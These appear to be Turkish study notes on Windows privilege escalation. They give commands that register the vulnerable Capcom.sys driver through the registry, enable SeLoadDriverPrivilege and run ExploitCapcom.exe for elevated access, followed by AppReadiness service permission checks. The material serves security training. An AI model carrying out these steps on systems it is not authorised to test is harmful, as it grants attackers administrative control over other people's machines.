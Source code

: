 

---

### **Driver'a Referans Ekleme**

```cmd-session
reg add HKCU\System\CurrentControlSet\CAPCOM /v ImagePath /t REG_SZ /d "\??\C:\Tools\Capcom.sys"

reg add HKCU\System\CurrentControlSet\CAPCOM /v Type /t REG_DWORD /d 1

```


### **Sürücünün Yüklü Olmadığını Doğrulayın**  

```powershell-session
.\DriverView.exe /stext drivers.txt
cat drivers.txt | Select-String -pattern Capcom
```

### **Ayrıcalığın Etkinleştirildiğini Doğrulayın**  

```cmd-session
EnableSeLoadDriverPrivilege.exe
```


### **Capcom Driver'ın Listelendiğini Doğrulayın**  

```powershell-session
.\DriverView.exe /stext drivers.txt

cat drivers.txt | Select-String -pattern Capcom
```


### **Ayrıcalıkları Yükseltmek için ExploitCapcom Aracını Kullanın**  

```powershell-session
.\ExploitCapcom.exe
```



---

### **AppReadiness Service'i Sorgulama**  

```cmd-session
sc qc AppReadiness
```


### **PsService ile Servis İzinlerini Kontrol Etme**  

```cmd-session
c:\Tools\PsService.exe security AppReadiness
```
